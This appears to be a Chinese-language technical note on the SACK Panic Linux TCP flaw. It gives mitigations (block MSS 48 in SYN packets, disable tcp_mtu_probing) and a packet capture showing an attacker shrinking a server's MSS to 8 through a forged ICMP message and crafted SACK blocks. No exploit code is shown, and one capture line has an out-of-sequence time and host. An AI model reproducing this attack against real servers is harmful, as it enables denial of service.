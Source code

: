  下面是net.ipv4.tcp_mtu_probing开启时的结果，自己看怎么将被攻击侧的mss从1460搞成8的，我把代码都贴上了。

 当然，如果你关了probe ，那么如果协商时mss比较大，就没风险了。所以Sack Panic的缓解方案之一就是：

  
  2. 禁止Syn/SynACK中携带48的mss。 
  4. 禁用net.ipv4.tcp_mtu_probing。  另外声明，下面的例子仅供参考。

 先看效果，抓包如下：

 
```
08:21:24.111487 IP 192.0.2.1.58328 > 192.168.33.130.webcache: Flags [S], seq 0, win 32792, options [mss 1460,sackOK,TS val 100 ecr 0,nop,wscale 7], length 0
08:21:24.111511 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [S.], seq 2101341465, ack 1, win 28960, options [mss 1460,sackOK,TS val 3134154 ecr 100,nop,wscale 7], length 0
08:21:24.111620 IP 192.0.2.1.58328 > 192.168.33.130.webcache: Flags [.], ack 1, win 257, length 0
08:21:24.111670 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:1449, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111672 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1449:2897, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111673 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 2897:4345, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111674 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 4345:5793, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111676 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 5793:7241, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111677 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 7241:8689, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111678 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 8689:10137, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111679 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 10137:11585, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111680 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 11585:13033, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
08:21:24.111681 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [P.], seq 13033:14481, ack 1, win 227, options [nop,nop,TS val 3134154 ecr 100], length 1448: HTTP
# 至此，被攻击侧已经发送了足够的数据！
…
07:42:40.382859 IP 192.0.2.1 > 192.168.185.126: ICMP 192.0.2.1 unreachable - need to frag (mtu 100), length 36
08:21:24.111689 IP 192.0.2.1.58328 > 192.168.33.130.webcache: Flags [.], seq 1:11, ack 1, win 257, length 10: HTTP
08:21:24.111699 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], ack 11, win 227, options [nop,nop,TS val 3134154 ecr 100], length 0
# 已经完成被攻击侧3个sack段的构造

08:21:24.334480 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:473, ack 11, win 252, options [nop,nop,TS val 3134377 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 472: HTTP
08:21:24.751521 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:473, ack 11, win 252, options [nop,nop,TS val 3134794 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 472: HTTP
08:21:25.573734 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:473, ack 11, win 252, options [nop,nop,TS val 3135616 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 472: HTTP
08:21:27.186758 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:473, ack 11, win 252, options [nop,nop,TS val 3137229 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 472: HTTP
08:21:30.470689 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:229, ack 11, win 252, options [nop,nop,TS val 3140513 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 228: HTTP
08:21:36.940490 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:101, ack 11, win 252, options [nop,nop,TS val 3146983 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 100: HTTP
08:21:49.837286 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:37, ack 11, win 252, options [nop,nop,TS val 3159879 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 36: HTTP
08:22:15.625137 IP 192.168.33.130.webcache > 192.0.2.1.58328: Flags [.], seq 1:9, ack 11, win 252, options [nop,nop,TS val 3185667 ecr 100,nop,nop,sack 3 {61:71}{41:51}{21:31}], length 8: HTTP
08:22:17.225592 IP 192.0.2.1.58328 > 192.168.33.130.webcache: Flags [.], ack 37, win 257, options [sack 1 {73:217},nop,nop], length 0
```